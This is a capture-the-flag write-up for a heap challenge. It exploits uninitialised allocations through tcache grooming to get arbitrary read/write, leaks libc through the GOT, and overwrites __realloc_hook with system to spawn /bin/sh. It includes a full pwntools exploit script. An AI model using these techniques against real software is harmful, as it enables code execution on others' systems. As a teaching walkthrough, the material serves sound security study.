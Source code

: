 # VECC Writeup

This is a hard heap exploitation challenge.

The idea is to first obtain a read/write primitive on the heap, then progressively leak data until you know the location of libc, then overwrite the `__realloc_hook` to call `system(/bin/sh)`.

## 1 - Identifying the vulnerability

The first thing to note when inspecting the binary logic is that bounds are being checked correctly so we have no buffer overflows or heap corruption, and there are no obvious double-frees or use-after-frees, however there is the glaring vulnerability that allocations are never zeroed and we must leverage this and only this to get a shell.

## 2 - The essence of the vulnerability

For this exploit all you need is the tcache. There are the `vecc`s - which are simillar to c++'s `std::vector` or rust's `Vec`. This is a small struct with a pointer (to a buffer), a length (of the used portion of the buffer), and a capacity (the maximum buffer length before reallocation is necessary). When a vecc is first created all fields should be NULLed to signal that a new buffer must be allocated upon first usage.

The key here is to notice that since allocations are not zeroed it is possible to groom the stack, then allocate a vecc from a tcache chunk without erasing the data on it.

This means that your allocated struct will leave the pointer as the `fd` pointer of the chunk from the tcache, as well as leaving the length and capacity unchanged from when the chunk was freed.

Furthermore since we have some control over the stack, it is possible to force this chunk `fd` pointer to point to another vecc struct as if it was the buffer of our new allocation.

```
 A                  B
+-----------+      +-----------+      +-----------+
| buf +----------> | buf +----------> | actual    |
+-----+-----+      +-----+-----+      | buffer    |
| len | cap |      | len | cap |      |           |
+-----+-----+      +-----+-----+      +-----------+
```

Once we have the above structure we are free to use A to overwrite all 3 fields of B as if it was a regular byte buffer, then use B to read or write data at will.

This is made a little more difficult in that we do not have arbitrary write on the buffer of any of our veccs, instead we only have the ability to clear and append to the buffers.

The clear operation simply zeroes the `len` field of the struct and does nothing else.

The append operation is a little more complicated, it:
- Allocates a temporary buffer of user defined size n
- Reads n bytes into the temporary buffer
- Checks whether `len` + n > `cap` - this would overflow the buffer
- If necessary reallocates the vecc's buffer to the next power of 2 size that would fit the existing buffer and the n new bytes while copying the data across, `cap` it also updated
- Append the user data from the temporary buffer to the vecc's buffer now that we're sure we can not overflow it
- Free the temporary buffer
- Update the `len` to reflect the size of the new used portion of the buffer

The end result is that a temp buffer is allocated and freed, and the vecc's buffer is possibly reallocated to fit the required size, then the user data is appended to the vecc's existing data.

Once we have our crafted heap structure we can use a clear, followed by an append to overwrite the entire vecc struct at will.

## 3 - The exploit

For this exploit we first do some housekeeping since we have a shell

```python
from pwn import *

def exit_proc():
	p.recvuntil("> ")
	p.sendline("0")

def create_vecc(index):
	p.recvuntil("> ")
	p.sendline("1")
	p.recvuntil("> ")
	p.sendline("{}".format(index))
	p.recvline()

def destroy_vecc(index):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("> ")
	p.sendline("{}".format(index))
	p.recvline()

def append_vecc(index, buffer, readline=True):
	p.recvuntil("> ")
	p.sendline("3")
	p.recvuntil("> ")
	p.sendline("{}".format(index))
	p.recvline()
	p.sendline("{}".format(len(buffer)))
	p.send(buffer)
	if readline:
		p.recvline()

def clear_vecc(index):
	p.recvuntil("> ")
	p.sendline("4")
	p.recvuntil("> ")
	p.sendline("{}".format(index))
	p.recvline()

def show_vecc(index, bytes):
	p.recvuntil("> ")
	p.sendline("5")
	p.recvuntil("> ")
	p.sendline("{}".format(index))
	return p.recv(bytes)

# p = remote("localhost", 1337)
p = process("../publish/vecc")
```

This simply reflects all of the shell commands we might need to use. Now lets get to grooming the heap for our primitive.

```python
create_vecc(0)
append_vecc(0, b"A" * 0x10)
```

We first create a vecc struct then append bytes to it.

It is important to write 0x10 bytes to this buffer since our aim is to have this buffer later interpreted as a vecc struct. For this to work we must make sure that it will be placed in the same tcache bin as a vecc struct would and therefore we should match the size of the vecc struct.

Note that this will also allocate and free a temporary buffer of size 0x10 while user data is read in, we now have 1 chunk in the tcache.

```python
destroy_vecc(0)
```

After this line first the vecc's buffer will be freed, then the vecc will be NULLed and freed.

Now the tcache looks like this:

```
tcachebin:

(was vecc)         (was buffer)       (was temp)
+-----------+      +-----------+      +-----------+
| fd  +----------> | fd  +----------> | fd = NULL |
| 000000000 |      | AAAAAAAAA |      | AAAAAAAAA |
| 000000000 |      | AAAAAAAAA |      | AAAAAAAAA |
+-----------+      +-----------+      +-----------+
```

Finally we complete our crafted structure:

```python
create_vecc(1)
create_vecc(2)
create_vecc(3)
```

Now we have allocated back from the tcache with some new structure:

```
 1                  2                  3
+-----------+      +-----------+      +-----------+
| buf +----------> | buf +----------> | buf = NULL|
+-----+-----+      +-----+-----+      +-----+-----|
| 000 | 000 |      | AAA | AAA |      | AAA | AAA |
+-----+-----+      +-----+-----+      +-----------+
```

Since 1 has capacity 0 any write will resule in a reallocation, so we don't touch 1 from now on, but now with 2 and 3 we have the same structure as in the original diagram - we are able to use 2 to overwrite the entire of 3, then utilise 3 for arbitrary read / write.

Now we know we have PIE disabled, therefore we are able to leak libc addresses from the GOT.

```python
puts_got = 0x601fa0
clear_vecc(2)
append_vecc(2, p64(puts_got) + p32(8) + b"AAAA")
puts_libc = u64(show_vecc(3, 8))

print("Puts address: {}".format(hex(puts_libc)))

free_got = 0x601f90
clear_vecc(2)
append_vecc(2, p64(free_got) + p32(8) + b"AAAA")
free_libc = u64(show_vecc(3, 8))

print("Free address: {}".format(hex(free_libc)))
```

This is enough to figure out the version of libc being used and the location of any other symbols needed.

```python
libc_base = puts_libc - 0x809c0
system = libc_base + 0x4f440
realloc_hook = libc_base + 0x3ebc28
str_bin_sh = libc_base + 0x1b3e9a

print("Realloc hook address: {}".format(hex(realloc_hook)))
```

Now we overwrite our realloc hook with the address of `system`.

```python
clear_vecc(2)
append_vecc(2, p64(realloc_hook) + p32(0) + b"AAAA")
append_vecc(3, p64(system))
```

Finally, we overwrite the buffer pointer of one of our vecc structures with a pointer to "/bin/sh" from within libc, then trigger a reallocation by appending a single extra byte, giving us a shell.

```python
clear_vecc(2)
append_vecc(2, p64(str_bin_sh) + p32(8) + p32(8))
append_vecc(3, "A", readline=False)

p.interactive()
```
